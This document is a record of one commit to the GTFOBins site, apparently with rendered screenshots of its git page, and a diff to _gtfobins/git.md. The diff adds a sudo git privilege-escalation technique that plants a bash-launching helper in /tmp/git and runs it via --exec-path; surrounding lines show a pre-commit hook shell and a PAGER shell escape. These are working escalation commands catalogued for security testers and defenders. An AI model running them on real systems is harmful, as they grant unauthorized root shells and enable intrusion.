

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide and 900 px high, scrolled down 1237 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1984 px from its top, so only the background shows below that.

Commit message:
Add new sudo git function #Yaml_fix

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -35,6 +35,12 @@ functions:
         echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
         mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
         sudo git -C "$TF" commit --allow-empty -m x
+    - description: If file creation is allowed, it can be used to change Git path
+      code: |
+        mkdir /tmp/git
+        echo '/bin/bash' > /tmp/git/git-escalation
+        chmod +x /tmp/git/git-escalation
+        sudo git --exec-path=/tmp/git escalation
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
 ---
```
